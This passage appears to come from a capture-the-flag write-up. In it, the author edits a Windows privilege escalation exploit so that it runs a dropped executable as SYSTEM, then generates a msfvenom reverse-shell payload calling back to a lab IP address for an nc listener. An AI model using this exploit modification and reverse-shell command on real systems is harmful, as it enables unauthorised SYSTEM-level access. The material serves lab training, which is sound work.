 #### Modify Code

The `README.md` shows that this exploit will pop open another `cmd.exe`
window. That's not useful for me. I found the point in the code where
this happens:



    // Launches a command shell process
    static bool LaunchShell()
    {
        TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
        PROCESS_INFORMATION ProcessInfo;
        STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
        if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
            CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
            &ProcessInfo))
        {
            return false;
        }

        CloseHandle(ProcessInfo.hThread);
        CloseHandle(ProcessInfo.hProcess);
        return true;
    }



I'll change the `CommandLine` string to:



    TCHAR CommandLine[] = TEXT("C:\\ProgramData\\0xdf.exe");



Now I can just drop a payload at `C:\programdata\0xdf.exe` and it will
be run as SYSTEM.

#### Generate Payload

I could compile my own payload since I've already got Visual Studio
open, but I'll opt for a simple `msfvenom` payload. I'll use
`windows/x64/shell_reverse_tcp` to get a reverse shell I can handle with
`nc`:



    root@kali# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of exe file: 7168 bytes
    Saved as: rev.exe



#### Execute
